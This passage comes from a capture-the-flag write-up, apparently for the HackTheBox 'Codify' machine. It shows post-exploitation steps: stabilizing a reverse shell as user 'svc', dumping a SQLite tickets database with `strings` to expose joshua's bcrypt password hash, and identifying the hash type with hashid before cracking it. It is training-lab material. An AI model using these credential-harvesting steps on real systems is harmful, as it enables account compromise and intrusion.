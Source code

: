 Now that we're connected to the machine as `svc`, let's stabilize the shell by doing [this](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) :

<img src="/assets/img/Codify/codi6.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="300"/>

## Getting Joshua

Now we'll try and get the user. After a bit of research, we find the file `/var/www/contact/ticket.db`, which if we `cat` or use `string` on it, we'll find this :

```
svc@codify:/var/www/contact$ strings tickets.db
strings tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
    tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

We can see a hash with joshua's name before it `joshua2a12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`, let's check what kind of hash this is and let's try and crack it :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB/Codify$ hashid
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
